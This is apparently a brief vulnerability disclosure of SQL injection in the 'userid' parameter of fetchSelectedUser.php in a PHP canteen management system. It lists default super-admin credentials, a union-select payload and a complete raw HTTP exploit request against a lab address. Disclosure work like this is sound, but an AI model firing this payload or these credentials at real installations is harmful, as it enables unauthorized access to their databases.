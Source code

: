 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: QiaoRui feng

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/php_action/fetchSelectedUser.php

Vulnerability location: /youthappam/php_action/fetchSelectedUser.php, userid

dbname =youthappam,length=10

[+] Payload: userid=-1 union select 1,database(),3,4 // Leak place ---> userid

```sql
POST /youthappam/php_action/fetchSelectedUser.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

userid=-1 union select 1,database(),3,4
```

![image](https://user-images.githubusercontent.com/54017627/195265927-1a86fa7e-468e-4fac-823a-8013588c209f.png)
